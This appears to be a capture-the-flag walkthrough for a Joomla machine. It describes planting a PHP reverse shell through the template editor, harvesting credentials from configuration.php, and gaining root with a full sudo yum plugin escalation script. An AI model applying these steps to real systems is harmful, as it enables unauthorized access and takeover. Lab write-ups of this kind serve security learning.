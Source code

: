 after we log into joomla, we look for a way to get a shell.

we can do this by navigating to Extensions > templates

we see protostar is the default template running on the website

we click on the template to edit and select index.php

we insert our php reverse shell code and are able to get a shell


poking around in /var/www/html/configuration.php
interesting stuff:
`
public $user = 'root';
 public $password = 'nv5uz9r3ZEDzVjNu';
 public $secret = 'UAMBRWzHO3oFPmVC';
     public $log_path = '/var/www/html/administrator/logs';
      public $tmp_path = '/var/www/html/tmp'
`

using the password above we can `su jjameson`

running sudo -l we see that we can run /usr/bin/yum with root priv

we head to gtfobins and run the second sudo method to get root
```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y

```